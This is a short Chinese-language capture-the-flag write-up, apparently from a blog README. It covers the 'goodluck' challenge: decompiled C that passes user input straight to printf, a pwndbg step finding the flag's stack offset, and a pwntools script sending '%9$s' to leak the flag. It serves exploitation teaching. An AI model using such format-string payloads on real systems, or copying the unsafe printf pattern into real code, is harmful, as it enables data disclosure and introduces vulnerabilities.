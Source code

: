 # Readme
#0blog

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  signed int i; // [rsp+4h] [rbp-3Ch]
  signed int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h]
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h]
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format);
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format);
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

明显的格式化字符漏洞。

当输入“123456”时，断在printf：

![](Readme/0E2204CA-1603-43BF-AAE2-7EFE437B0A81.png)

可以看到flag在栈上的第5个位置，栈上的第一个为返回地址，但是64位的程序还有6个参数在寄存器中，所以参数就是第十个，相对的偏移地址就是9。
也可以使用`fmtarg `来获得参数的偏移：

```c
pwndbg> fmtarg 0x7fffffffe568
The index of format argument : 10
```


![](Readme/7378D24A-1FD1-444C-A092-145097454AE2.png)

Payload:
```python
from pwn import *

p = process("./goodluck")

payload = "%9$s"
p.sendline(payload)
p.interactive()
```